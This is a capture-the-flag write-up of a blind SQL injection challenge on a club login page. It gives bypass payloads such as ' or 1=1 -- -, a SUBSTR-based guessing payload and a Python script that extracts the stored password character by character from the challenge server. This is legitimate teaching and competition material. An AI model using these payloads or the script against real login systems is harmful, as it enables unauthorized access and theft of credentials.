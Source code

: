 # Blindfold Enthusiasts

## Challenge Description

Look a blindfold enthusiast club login page. Wonder what I can get out of here


## First look at the webpage

We are presented with a simple login page.  
![screenshot1](assets/screenshot1.jpg)

The name of the challenge already hints that it'll be a blind SQL injection attack.

Let's try some SQL injecion:
- username: `' or 1=1 -- -`
- password: `anything`

![screenshot2](assets/screenshot2.jpg)

Turns out, both username and password had to be correct to do it. (maybe the query was written in multiple lines?)
- username: `' or 1=1 -- -`
- password: `' or 1=1 -- -`

![screenshot3](assets/screenshot3.jpg)

Seems like we will only be getting a success message for injecting successfully.


## Trying to leak the password

My guess was that the correct password would be the flag, and we are supposed to find the user's password.

My guess of a possible query that's being used in this case:  
```SQL
SELECT *
FROM user
WHERE username = '$username'
AND password = '$password'
```

Using these payloads:
- username: `' or 1=1 -- -`
- password: `' or password LIKE 'NYP{%}' -- -`

Will result in a query looking like this:  
```SQL
SELECT *
FROM user
WHERE username = '' or 1=1 -- -'
AND password = '' or password LIKE 'NYP{%}' -- -'
```

![If you are reading this, yes I used the same screenshot cause I'm lazy](assets/screenshot3.jpg)

Since the payload worked, it confirms that the flag is the password.


## Solution

To leak the flag, I can check the left few characters of the flag for each character till I get the whole flag.

Basically:
- username: `' or 1=1 -- -`
- password: `' or SUBSTR(password, 1, <length of guess>) = '<guessed characters>' -- -`

[Script](script.py) to automate the guessing proccess:  
```py
import requests
from string import printable

URL = "https://blind.nypinfosec.tk"
YES = "You Did It"

password = "NYP{"
while password[-1] != "}":
    print(f"Password cracking in progress: {password}")
    for char in printable:
        guess = password+char
        resp = requests.post(URL, data={
            "username": "' or 1 -- -",
            "password": f"' or SUBSTR(password, 1, {len(guess)}) = '{guess}' -- -"
        })
        if YES in resp.text:
            password += char
            break

print(f"\nSuccess!\nPassword get: {password}")
```

Output:  
![screenshot4](assets/screenshot4.jpg)

Flag Captured: `NYP{Bl1ndF01d5-4rE-4m4Z1ng}`
